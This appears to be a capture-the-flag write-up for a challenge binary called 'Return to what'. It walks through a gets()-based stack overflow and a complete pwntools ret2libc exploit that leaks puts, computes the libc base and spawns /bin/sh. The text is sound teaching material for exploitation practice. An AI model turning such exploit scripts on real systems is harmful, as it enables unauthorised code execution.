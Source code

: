 # Challenge Name : Return to what

# Challenge Description : 

This will show my friends!

## Analysis of the binary

Upon running a checksec on the binary, we see the following : 

```
   Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
```

It seems that there is Partial Relro, that means we can do a `ret-to-libc` easily. 

The following is the `vuln()` function from the ghidra decompiler : 

```
void vuln(void)

{
  char local_38 [48];
  
  puts("Where would you like to return to?");
  gets(local_38);
  return;
}
```

We see that the buffer size if 48 and there is a `gets()` syscall. We can easily get a buffer overflow and leak the address of the puts function and then get the base address for libc. 

From here we can get the version of the libc that is being used by the server and create a ropchain using the syscall offsets from that libc that we have found out.


## Leaking the Remote Libc

First find out the offset at which the buffer overflow is triggered. It turns out to be 56. Then take a Rop Gadget from the binary. I used the tool called Ropper to get a Ropgadget.

```
ropper --file return-to-what
```

I will use the gadget `pop rdi; ret` which will allow me to jump to the code on the stack that I have placed after the buffer overflow. 

Then I'll need the `puts@plt` and the `puts@got` from the binary. We will leak the address of `puts@got` from the remote binary, so it will be placed as the parameter for `puts@plt` call and then return the function to `main` to continue the execution of the program further. 

So the following piece of code will leak the puts@got from the remote libc


```
from pwn import *

context.terminal = ["tmux", "splitw", "-v"]
context.log_level = 'DEBUG'
#for local
elf = context.binary = ELF("./return-to-what")
libc = ELF("./local_libc.so.6")
#libc = ELF("./libc6_2.27-3ubuntu1_amd64.so")
sh = gdb.debug("./return-to-what")
#for remote
#sh = remote("chal.duc.tf", 30003)

puts_got = p64(elf.got[b'puts'])
puts_plt = p64(elf.plt[b'puts'])
main_plt = p64(elf.symbols[b'main'] + 1)
padding = b'a'*56
pop_rdi = p64(0x000000000040122b)

# Leaking libc

payload = padding + pop_rdi + puts_got + puts_plt + main_plt
sh.sendlineafter("?\n",payload)
puts_leaked = sh.recvline().rstrip()
puts_leaked = u64(puts_leaked.ljust(8,b"\x00"))
print("LEAK : ",hex(puts_leaked))
```

## Finding the libc version

After leaking the remote libc find out the libc version in the libc database. I used the online libc database.

![leaked libc](Pictures/leaked_libc.png)

Copy this leaked address that you have got and then paste it in the remote libc database as follows

![remote libc](Pictures/remote_libc.png)

Here you can see that two results are being given for the address. One of them is for 64 bit system and since we are dealing with a 64-bit binary, I used the amd64 version and it worked. You can even download the libc from here and use it.


## Calculating Libc base and other offsets

After downloading the remote libc, calculate the offets and the libc base as follows : 

```
#Calculating libc base from the offset

puts_offset = libc.symbols[b'puts']
libc_base = puts_leaked - puts_offset
print("LIBC Base : ",hex(libc_base))
system_offset = libc.symbols[b'system']
binsh_offset = next(libc.search("/bin/sh"))
exit_offset = libc.symbols[b'exit']

system = p64(libc_base + system_offset)
binsh = p64(libc_base + binsh_offset)
exit = p64(libc_base + exit_offset)
```

Also find the actual addresses of the functions as shown above. 


## Final Exploit

```
from pwn import *

context.terminal = ["tmux", "splitw", "-v"]
context.log_level = 'DEBUG'
#for local
elf = context.binary = ELF("./return-to-what")
libc = ELF("./local_libc.so.6")
#libc = ELF("./libc6_2.27-3ubuntu1_amd64.so")
sh = gdb.debug("./return-to-what")
#for remote
#sh = remote("chal.duc.tf", 30003)

puts_got = p64(elf.got[b'puts'])
puts_plt = p64(elf.plt[b'puts'])
main_plt = p64(elf.symbols[b'main'] + 1)
padding = b'a'*56
pop_rdi = p64(0x000000000040122b)

# Leaking libc

payload = padding + pop_rdi + puts_got + puts_plt + main_plt
sh.sendlineafter("?\n",payload)
puts_leaked = sh.recvline().rstrip()
puts_leaked = u64(puts_leaked.ljust(8,b"\x00"))
print("LEAK : ",hex(puts_leaked))

#Calculating libc base from the offset

puts_offset = libc.symbols[b'puts']
libc_base = puts_leaked - puts_offset
print("LIBC Base : ",hex(libc_base))
system_offset = libc.symbols[b'system']
binsh_offset = next(libc.search("/bin/sh"))
exit_offset = libc.symbols[b'exit']

system = p64(libc_base + system_offset)
binsh = p64(libc_base + binsh_offset)
exit = p64(libc_base + exit_offset)

payload1 = padding + pop_rdi + binsh + system
sh.sendlineafter("?\n",payload1)

sh.interactive()
```

